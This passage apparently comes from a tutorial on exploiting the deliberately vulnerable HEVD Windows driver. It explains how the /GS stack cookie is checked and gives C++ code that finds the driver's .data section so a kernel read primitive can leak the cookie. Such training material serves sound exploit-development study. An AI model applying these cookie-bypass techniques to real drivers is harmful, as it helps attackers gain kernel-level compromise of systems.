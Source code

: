 3. At the end of the function, right before returning, the saved xored cookie is xored again against RSP and compared to the original cookie in the _\_\_security_check_cookie_ function:
![](/assets/images/bof_gs/gs_imp_3.jpg)

4. If they're not identical, KeBugCheckEx is called with [0xF7 bugcheck code](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-0xf7--driver-overran-stack-buffer)

By combining a read primitive with our knowledge of GS implementation we can see we need two things to be able to calculate to correct stack cookie.  
First, we need to get the original cookie value from the _\_data_ section. To do it we can load the driver in our code and parse its headers to calculate to offset to the section.

Example code (error checks omitted):
```cpp
HANDLE hHevdLocalBase = LoadLibraryExA("C:\\Users\\User\\Desktop\\HEVD.sys", NULL, DONT_RESOLVE_DLL_REFERENCES);
printf("[*] Loaded local HEVD.sys\n");
printf("[+] Searching for .data section offset\n");
PIMAGE_NT_HEADERS hevdImageHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)hHevdLocalBase + ((PIMAGE_DOS_HEADER)hHevdLocalBase)->e_lfanew);
ULONG_PTR hevdSectionLocation = IMAGE_FIRST_SECTION(hevdImageHeader);
DWORD hevdDataSectionOffset = 0;

for (int i = 0; i < hevdImageHeader->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER hevdSection = (PIMAGE_SECTION_HEADER)hevdSectionLocation;
    if (strcmp(hevdSection->Name, ".data") == 0) {
        hevdDataSectionOffset = hevdSection->VirtualAddress;
    }
    hevdSectionLocation += sizeof(IMAGE_SECTION_HEADER);
}
if (hevdDataSectionOffset == 0) {
    printf("[-] Failed locating the .data section of hevd.sys locally\n");
    bResult = FALSE;
    goto _cleanup;
}
printf("[*] Offset of .data section of hevd.sys is: %d\n", hevdDataSectionOffset);
intptr_t hevdDataSection = hevdDataSectionOffset + (intptr_t)hevdBase;
printf("[*] The .data section of hevd.sys in the kernel is at: 0x%llx\n", hevdDataSection);
```
With our read primitive we'll read the address we calculated.
But then comes the tricky part - we need to know both the cookie, but also the RSP value **at the start of the function**.  
At first, this seems like a problem, because the stack is dynamic so how could we predict its value when we exploit the buffer overflow?  
